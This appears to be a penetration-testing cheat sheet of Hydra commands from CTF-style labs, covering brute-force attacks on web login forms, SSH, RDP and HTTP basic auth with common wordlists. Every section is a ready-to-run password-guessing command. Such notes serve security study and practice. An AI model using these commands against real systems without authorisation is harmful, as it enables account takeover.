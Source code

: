 #### POST form:
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V
```

```bash
hydra -l milesdyson -P log1.txt $ip http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20
```
or success condition: :S=302 or :S=Dashboard
failure condition :F=Invalid

```shell
 hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f 94.237.53.230 -s 30768 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```


Multiple targets:
```shell
hydra -l root -p toor -M targets.txt ssh
```

#### Bruteforce ssh
```bash
 hydra -L users.txt -P passwords.txt 10.129.131.97 ssh
 ```

#### Generate passwords of charset and from 6 to 8 chars:
```shell
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```

#### Bruteforce basic auth
```shell
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81
```

